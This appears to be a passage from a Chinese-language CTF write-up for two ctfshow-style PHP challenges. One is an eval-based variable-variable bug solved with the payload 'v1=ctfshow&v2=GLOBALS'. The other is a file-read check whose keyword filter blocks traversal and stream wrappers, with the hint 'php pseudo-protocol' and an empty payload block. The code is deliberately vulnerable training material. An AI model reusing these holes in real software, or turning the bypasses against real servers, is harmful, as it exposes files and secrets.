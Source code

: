 ```php
  ["b"]=>
  int(456)
```
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
?>
```
payload:
```php
?v1=ctfshow&v2=GLOBALS
```

#### <font color="yellow">is_file() </br> filter()</font>
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
分析:
```php
is_file()判断$file是文件,highlight_file()高亮文件内容
结合 filter 很容易联想php伪装协议
```
payload:
```
```